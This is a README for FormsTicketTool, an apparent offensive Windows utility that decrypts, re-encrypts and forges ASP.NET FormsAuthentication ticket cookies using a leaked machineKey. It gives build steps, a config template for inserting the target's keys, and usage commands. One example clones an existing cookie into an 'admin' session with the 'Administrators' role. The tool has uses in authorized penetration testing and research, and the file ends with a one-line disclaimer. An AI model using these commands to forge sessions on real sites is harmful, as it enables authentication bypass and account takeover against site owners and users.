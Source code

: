 # FormsTicketTool

> decrypt / encrypt / create **ASP.NET FormsAuthentication** tickets using leaked machineKeys.

## Overview

A small Windows tool for decrypt/encrypt/create cookie "sessions" (`FormsAuthenticationTicket `) when owning the machineKey.

---

## Build

**Requirements**

- Visual Studio (or `csc.exe` / `dotnet build`)
- .NET Framework 4.8
- Add reference: `System.Web`

> Prefer using Visual Studio for a single-click build.

Or **manual build steps**

1. Clone the repo:
   ```bash
   git clone https://github.com/4xura/FormsTicketTool.git
   cd FormsTicketTool
   ```

2. Open `FormsTicketTool.sln` in Visual Studio or compile manually:

   ```
   csc /r:System.Web.dll FormsTicketTool.cs
   ```

3. Copy `App.config.template` → `App.config`. Insert your target machineKey:

4. Build → `FormsTicketTool.exe` will appear in `/bin/Debug` or `/bin/Release`.

---

## Usage

```
FormsTicketTool.exe decrypt <COOKIE> [--json] [--utc]
FormsTicketTool.exe encrypt <EXISTING_COOKIE> <NEW_USER> <USERDATA> <MINUTES_VALID>
FormsTicketTool.exe create  <USERNAME> <USERDATA> <MINUTES_VALID> [isPersistent]
FormsTicketTool.exe gen-config <decryptionKey> <validationKey> [compatibilityMode] [outfile]
FormsTicketTool.exe info
```

Prints:

- default: TTL and local timestamps

- `--json` (optional): machine-friendly JSON

  ```json
  {"version":1,"name":"john.doe","issued":"2025-10-20T19:46:10.3973725+08:00","expires":"2025-10-20T19:56:10.3973725+08:00","persistent":true,"userdata":"Vistor","cookiePath":"/"}
  ```

- `--utc`  (optional): show timestamps in UTC instead of local

Usage examples:

```sh
# decrypt a cookie string
FormsTicketTool.exe decrypt 8CE190CA4584C2E0...

# clone cookie into admin with Administrators role
FormsTicketTool.exe encrypt 8CE190CA4584C2E0... admin "Administrators" 120
```

------

## Config Example

`App.config.template` (rename to `App.config` for actual run):

```xml
<configuration>
  <system.web>
    <machineKey
      decryption="AES"
      decryptionKey="B26C371E..."
      validation="HMACSHA256"
      validationKey="EBF9076B..."
      compatibilityMode="Framework45" />
  </system.web>
</configuration>
```

------

## Disclaimer

This project is for educational and authorized research only.